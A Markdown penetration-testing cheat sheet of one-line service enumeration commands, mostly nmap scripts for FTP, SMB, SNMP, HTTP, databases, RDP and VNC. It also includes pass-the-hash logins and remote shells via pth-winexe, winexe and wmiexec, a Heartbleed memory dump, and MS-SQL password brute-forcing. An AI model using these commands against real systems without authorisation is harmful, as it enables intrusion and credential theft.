 # Enumerate Services

- [FTP](#ftp)
- [SSH](#ssh)
- [SMB](#smb)
- [SNMP](#snmp)
- [RPC](#rpc)
- [SMTP](#smtp)
- [IMAP](#imap)
- [MOUNTD](#mountd)
- [NFS](#nfs)
- [POP3](#pop3)
- [HTTP/S](#http/s)
- [MSSQL](#mssql)
- [MYSQL](#mysql)
- [ORACLE](#oracle)
- [RDP](#rdp)
- [VNC](#vnc)


## FTP
nmap -sV -Pn -vv -p 21 --script=ftp-* $ip

## SSH
nmap -sV -Pn -vv -p 22,2200 --script=ssh* $ip

## SMB
nmap -v -p 139,445 --script=smb-check-vulns $ip
enum4linux -v $ip
python /usr/share/doc/python-impacket/examples/samrdump.py $ip
export SMBHASH=<hash value> && pth-winexe -U backup% //$ip cmd login with PTH-WINEXE
winexe -U backup //$ip cmd
wmiexec.py user:password@$ip
smbclient -L \\$ip -N

## SNMP
for x in $(seq 200 254); do echo $192.168.15.$x; done > ips.txt && onesixtyone -c strings.txt -i ips.txt
snmpwalk -c public -v1 $ip
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-* $ip

## RPC
nmap -v -p 135,1025 --script=rpc-* $ip

## SMTP
nmap -vv -sV -Pn -p 25 --script=smtp* $ip

## IMAP
nmap -vv -sV -Pn -p 143,220 --script=imap* $ip

## MOUNTD

## NFS
nmap -p 111 --script nfs-showmount,nfs-ls $ip

## POP3
     nmap -vv -sV -Pn -p 110 --script=pop3* $ip

## HTTP/S
nmap -sV -Pn -vv -p 80,3339,7778,8080 --script=http-* $ip
nmap -sV -Pn -vv -p 443 --script=ip-https-* $ip
nmap -p 443 --script ssl-heartbleed $site
heartbleed.py $site | less
strings dump.bin

## MS-SQL
nmap -vv -sV -Pn -p 1433,1434 --script=ms-sql-* $ip
nmap -p1433 --script=ms-sql-brute -script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt $ip

## MY-SQL
nmap -w -sV -Pn -p 3306 --script=mysql-* $ip

## ORACLE
nmap -Pn -p 1038,1521,1748,1754,1808,1809,2030,2100,3339,4443,7778,8080 --script=oracle-* $ip

## RDP
nmap -v -p 3389 --script=rdp-* $ip

## VNC
nmap -sV -Pn -vv -p 5800,5900 --script=realvnc-* $ip
nmap -sV -Pn -vv -p 5800,5900 --script=vnc-* $ip